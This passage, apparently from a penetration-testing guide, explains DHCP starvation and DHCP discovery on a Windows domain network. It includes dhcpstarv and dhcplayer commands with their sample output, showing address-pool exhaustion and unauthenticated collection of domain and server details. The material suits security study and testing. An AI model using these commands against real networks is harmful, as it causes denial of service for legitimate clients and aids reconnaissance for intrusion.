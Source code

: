 ```
INFO - Requested IP 192.168.100.160
INFO - ACK to 192.168.100.160 for 52:54:00:76:87:bb
```

## DHCP Starvation

The DHCP starvation attack is a DOS attacks where a fake client requests all available IP addresses that a DHCP server offers. This way, the legitimate clients cannot obtain an IP address so must stay offline. It is possible to perform this attack by using tools like [dhcpstarv](https://github.com/sgeto/dhcpstarv), [yersinia](https://github.com/tomac/yersinia) or [dhcplayer](https://github.com/Zer1t0/dhcplayer#starvation-attack).

```bash
$ dhcpstarv -i enp7s0
08:03:09 11/30/20: got address 192.168.100.7 for 00:16:36:99:be:21 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.8 for 00:16:36:25:1f:1d from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.9 for 00:16:36:c7:79:f2 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.10 for 00:16:36:f4:c3:e9 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.11 for 00:16:36:dc:51:a1 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.12 for 00:16:36:c2:c2:06 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.13 for 00:16:36:15:e0:74 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.14 for 00:16:36:40:1c:02 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.15 for 00:16:36:c5:9a:c3 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.16 for 00:16:36:14:1a:b3 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.17 for 00:16:36:13:45:14 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.18 for 00:16:36:14:fb:18 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.19 for 00:16:36:b2:93:90 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.20 for 00:16:36:c7:38:f9 from 192.168.100.2
```

## DHCP Discovery

Also DHCP can be interesting from the client point of view, since it could allow you to get some useful information about the environment, that what it is designed for.

You can sent a DISCOVER to message to the network and check what information is retrieved. Is a way to get information from an unauthenticated position, like the domain or the servers addresses, which usually are the Domain Controllers.

```
$ dhcplayer discover -I eth2 -n

OFFER received from 192.168.100.2
Offered IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
DHCP Server: 192.168.100.2
Options:
[1] Subnet Mask: 255.255.255.0
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[3] Router: 192.168.100.2
[5] Name Server: 192.168.100.2
[6] Domain Server: 192.168.100.2
[15] Domain Name: contoso.local
[44] NetBIOS Name Server: 192.168.100.2
[77] Unknow: [0, 14, 82, 82, 65, 83, 46, 77, 105, 99, 114, 111, 115, 111, 102, 116, 0, 0, 0, 80, 0, 68, 0, 101, 0, 102, 0, 97, 0, 117, 0, 108, 0, 116, 0, 32, 0, 82, 0, 111, 0, 117, 0, 116, 0, 105, 0, 110, 0, 103, 0, 32, 0, 97, 0, 110, 0, 100, 0, 32, 0, 82, 0, 101, 0, 109, 0, 111, 0, 116, 0, 101, 0, 32, 0, 65, 0, 99, 0, 99, 0, 101, 0, 115, 0, 115, 0, 32, 0, 67, 0, 108, 0, 97, 0, 115, 0, 115, 0, 0, 0, 74, 0, 85, 0, 115, 0, 101, 0, 114, 0, 32, 0, 99, 0, 108, 0, 97, 0, 115, 0, 115, 0, 32, 0, 102, 0, 111, 0, 114, 0, 32, 0, 114, 0, 101, 0, 109, 0, 111, 0, 116, 0, 101, 0, 32, 0, 97, 0, 99, 0, 99, 0, 101, 0, 115, 0, 115, 0, 32, 0, 99, 0, 108, 0, 105, 0, 101, 0, 110, 0, 116, 0, 115, 0, 0]
```